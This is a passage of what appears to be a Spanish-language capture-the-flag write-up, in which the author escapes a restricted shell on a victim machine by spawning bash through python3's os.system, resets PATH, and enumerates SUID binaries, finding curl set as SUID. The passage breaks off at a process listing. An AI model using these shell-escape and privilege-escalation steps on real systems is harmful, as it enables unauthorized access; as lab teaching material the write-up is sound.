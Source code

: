 ```bash
times
trap
true
type
typeset
ulimit
umask
unalias
unset
wait
python3
ls
python3
ls
```

Vemos que tenemos **python3** habilitado asi que nos aprovechamos de esto para ejecutar comandos en el sistema atraves de la libreria **os**
Primero realizamos una prueba para ver si funciona:
```bash
python3 -c "print('hello world')"
hello world
```

ahora probaremos con comandos a nivel de sistema:
```bash
python3 -c 'import os; os.system("/bin/bash")'
```

Ahora que tenemos una **bash** aun no podemos ejecutar comandos, Pero para poder ejecutar comandos modificaremos la variable de entorno: **( $PATH )** copiando la de nuesta maquina de atacante para que tome los mismos binarios pero desde la maquina victima y asi nos permia ejecutar comandos:
```bash
export PATH=Aqui_ruta
```

Ahora si que podemos ejecutar comandos:
```bash
rabol@66dba75cfb3b:~$ whoami
rabol
```

Ahora podemos listar binarios con privilegios **SUID**
```bash
find / -perm -4000 2>/dev/null
```

tenemos el binario del comando **curl** como **SUID**
```bash
/usr/bin/curl
```

Tambien listando los procesos del sistema:
```bash
ps -faux
```

